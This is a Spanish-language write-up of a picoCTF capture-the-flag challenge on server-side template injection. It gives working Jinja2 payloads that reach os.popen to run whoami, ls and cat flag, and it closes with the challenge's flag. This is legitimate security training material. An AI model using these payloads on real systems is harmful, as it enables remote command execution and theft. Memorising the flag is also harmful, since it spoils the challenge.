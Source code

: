 #### Descripción

¡Hice un sitio web genial donde puedes anunciar lo que quieras! ¡Pruébalo!¡Escuché que las plantillas son una forma genial y modular de crear aplicaciones web! ¡Echa un vistazo a mi sitio web [aquí](http://rescued-float.picoctf.net:64566/)!

### Solución
Ahora, para resolver el desafío, necesitamos encontrar el valor de la bandera que podemos obtener realizando un ataque de inyección de comandos o ejecución remota de código. Podemos buscar las cargas útiles disponibles con respecto a **Jinja2** para ejecutar la inyección de comandos.

Proporcionemos información de la siguiente manera:

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('**whoami**').read() }}

Se confirma que la aplicación es vulnerable al ataque de inyección de comandos y ahora podemos buscar el archivo de bandera usando el comando '**ls**' para enumerar los archivos disponibles en el directorio actual proporcionando entrada como se muestra a continuación:

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('**ls**').read() }}

Afortunadamente, tenemos el archivo de bandera en la misma carpeta, por lo que no tenemos que buscarlo más y podemos leer directamente el contenido del archivo de bandera usando el comando **cat** como se muestra a continuación:

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('**cat flag**').read() }}

### Bandera
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`